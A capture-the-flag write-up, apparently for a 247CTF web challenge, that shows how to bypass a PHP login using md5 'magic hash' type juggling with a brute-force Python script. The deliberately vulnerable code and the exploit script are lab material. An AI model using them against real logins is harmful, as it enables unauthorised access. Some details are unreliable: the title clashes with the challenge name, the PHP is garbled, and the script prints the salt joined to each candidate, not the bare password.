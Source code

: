 # COMPARE THE PAIR (Web)

## Intro  
This is my write-up for the Web challenge "Secured Session" on the CTF site 247CTF.com.

## Challenge Details  
The challenge involves finding a way to bypass the login logic using something related to `md5`.

## Steps to Solve

### 1. Access the Application  
Start by accessing the web application provided for the challenge.

### 2. Analyze the Provided PHP Code
php
<?php
require_once('flag.php'); $password_hash = "0e902564435691274142490923013038"; $salt = "f789bbc328a3d1a3"; if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){ echo $flag; } echo highlightfile(_FILE, true); ?> ```

The code takes the $salt and concatenates it with our $password input, then md5 hashes it to compare with the $password_hash.

We have no information about what the password might be, and brute-forcing it could take a long time.

The vulnerability occurs in the == comparison.

### 3. Understanding the Vulnerability
In PHP, the comparison operator == checks two values for equality, performing type juggling. This means PHP attempts to convert the values to a common type before making the comparison.

Key Points About == in PHP:
Type Juggling: PHP automatically converts operand data types when using ==. For example: php if (5 == "5") { echo "Equal"; } Here, "5" (a string) is converted to an integer, so the comparison returns true.

Loose Comparison: == is known as a "loose comparison." For instance: php if (0 == false) { echo "Equal"; } In this case, 0 is equivalent to false, returning true.

Common Pitfalls:

Comparing different types can yield unexpected results: php if ("0" == false) { echo "Equal"; } Here, the string "0" is treated as false, leading to a true comparison.
Additionally, the format of $password_hash resembles a large number starting with 0e.... When 0e1234 is compared using ==, PHP treats it as the number 0:

if ("0e1234" == 0) {
    echo "Equal";
} else {
    echo "Not Equal";
}
Output: "Equal"

### 4. Exploiting the Vulnerability
The vulnerability is clear: we need to find a password such that when concatenated with $salt, its md5 hash generates a string that appears like a large number (starts with 0e followed by digits).

Here's a Python script to help with this:

from itertools import product  
import hashlib

for x in range(0, 10):
    for combo in product("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", repeat=x):
        result = hashlib.md5(("f789bbc328a3d1a3" + ''.join(combo)).encode()).hexdigest()
        if result.startswith("0e") and result[2:].isdigit():
            print("f789bbc328a3d1a3" + ''.join(combo))
Any resulting password can be sent to the server as ?password=xxxxxx. Finally, we can retrieve the flag!


### Resources 
https://www.php.net/manual/en/language.types.type-juggling.php
https://github.com/abhaynayar/obsidian/blob/master/labs/web/247ctf.md
